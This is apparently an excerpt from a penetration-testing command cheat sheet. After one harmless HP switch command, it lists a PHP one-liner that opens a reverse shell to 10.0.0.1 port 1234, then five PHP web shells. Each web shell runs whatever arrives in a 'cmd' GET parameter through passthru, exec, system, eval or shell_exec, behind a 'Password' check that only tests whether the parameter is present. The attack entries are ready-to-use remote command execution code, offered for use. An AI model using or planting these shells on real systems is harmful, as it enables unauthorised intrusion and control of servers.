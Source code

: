 ### 1. hp switch show if info
```
display interface brief
```
**- networking,hp**
#### References:

http://www.h3c.com.hk/technical_support___documents/technical_documents/wlan/access_point/h3c_wa2200_series_wlan_access_points/command/command/h3c_wa_wlan_access_cr-6w100/03/201009/691873_1285_0.htm
__________
### 2. php reverse shell : php from the CLI
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
**- linux,reverse shells,Windows,php**
#### References:

https://highon.coffee/blog/reverse-shell-cheat-sheet/
__________
### 3. Php Simple shell, set aPasswordto access, cmd is your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){passthru($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:

php.net/manual/en/function.passthru.php
__________
### 4. Php Simple shell, set Password to access, cmd is your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){exec($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:

php.net/manual/en/function.exec.php
__________
### 5. Php Simple shell, set Password to access, cmd is your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){system($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:

php.net/manual/en/function.system.php
__________
### 6. Php Simple shell, set Password to access, cmd is your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){eval($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:

php.net/manual/en/function.eval.php
__________
### 7. Php Simple shell, set Password to access, bis your command: See Commix to use this easily
```
<?php if (isset($_GET['Password'])){shell_exec($_GET['cmd']);} ?>
```
**- web application,php,remote command shell**
#### References:

php.net/manual/en/function.shell-exec.php
__________
